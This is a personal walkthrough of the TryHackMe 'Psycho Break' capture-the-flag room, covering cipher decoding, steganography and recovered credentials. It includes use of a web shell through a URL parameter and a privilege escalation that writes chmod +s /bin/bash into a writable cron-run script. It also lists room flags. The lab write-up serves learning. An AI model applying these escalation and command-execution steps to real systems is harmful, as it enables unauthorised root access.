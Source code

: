 ### PsyCho_Break ###

export IP=10.10.18.246

Found this in the page source:
<!-- Sebastian sees a path through the darkness which leads to a room => /sadistRoom -->

The page included a key:
532219a04ab7a02b56faafbec1a4c1ea

# For the map:
Decode this piece of text "Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv" and get the key to access the map

Tried a python script to decrypt using ceaser cipher but no luck there...trying something else

# Atbash mirror cipher:(A becomes Z, B becomes X and so on)
Grant_me_access_to_the_map_please


The map showed 4 urls:2 of which i had visited:

# Safe Heaven:
had a comment:<!-- I think I'm having a terrible nightmare. Search through me and find it ... -->

Keeper was the directory...

Reverse search engine:staris.jpg:

st.augustine lighthouse

key: 48ee41458eb0b43bf82b986cecf3af01

# Abandonend Page:
<!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->



<!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->

### So called "Shell"
http://10.10.110.52/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls

assets dead.php herecomeslara.php index.php script.js 

contents of current dir

ls ..: showed one more dir:680e89809965ec41e64dc7e447f175ab

txt file: you_made_it.txt
# Contents: You made it. Escaping from Laura is not easy, good job .... 

also got helpme.zip:

root@kali:~/writeUps/tryhackme/psycho_break# unzip helpme.zip 
Archive:  helpme.zip
  inflating: helpme.txt              
  inflating: Table.jpg 

Turns out Table.jpg was actually a zip file:

# File:

ran file Table.jpg
got 2 more files from that file:

key.wav sounds like mourse code:showme

used audacity for that:

using steghide on the image...turns out it was SHOWME

Found thankyou.txt...
### FTP Details:
USER : joseph				||
	||	PASSWORD : intotheterror445

	got 2 files:program and random.dic

program if ofc a shell script which takes a word and prints something if its correct:

wrote a small python script:
kidman                                                                                                                       
kidman => Correct                                                                                                            
                                                                                                                             
Well Done !!!                                                                                                                
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33

looks like a OLD-Phones keypad decoded something if that makes any sense...idk whats the exact word for it:Trying manually to decode this:

kidmanspasswordissostrange

KIDMANSPASSWORDISSOSTRANGE
''' 
	kidman's password is sostrange
 '''
Sounds : kidman:sostrange...trying ssh

After trying several times: kidman:KIDMANSPASSWORDISSOSTRANGE - ssh

# User.txt:
4C72A4EF8E6FED69C72B4D58431C4254

Found two files in the home dir itself:

.readThis.txt:

uC@> z:5>2?i

%96 E9:?8 x 2> 23@FE E@ E6== D@ :D E@A D64C6E] }@ @?6 5@6D?VE <?@H 23@FE E9:D] xEVD E96 #FG:<VD 6J6] }@ @?6 42? 9:56 2H2J 7C@> :E] qFE x 42? E6== J@F @?6 E9:?8 D62C49 7@C E96 DEC:?8 YE9606J60@70CFG:<Y ] *@F 8@E E@ 96=A $632DE:2? 56762E #FG:< ]]]


.the_eye.txt:
I am watching you.



cat /etc/crontab...revelas a python script running every half a minute:
its writable too so its game over:
import os
os.system("chmod +s /bin/bash")


then after half a minute:/bin/bash -p:


# Root.txt:
BA33BDF5B8A3BFC431322F7D13F3361E

# Side Quest:

Also found a readme.txt:


 /\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\
|  From Sebastian :                                                                     |
|                                                                                       |
|  You have one final task ... Help me to defeat ruvik !!!                              |
|                                                                                       |
 \/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/


 The hint revealed that i have to delete ruvik's acc..did'nt really tried it...to lazy to try it lol :)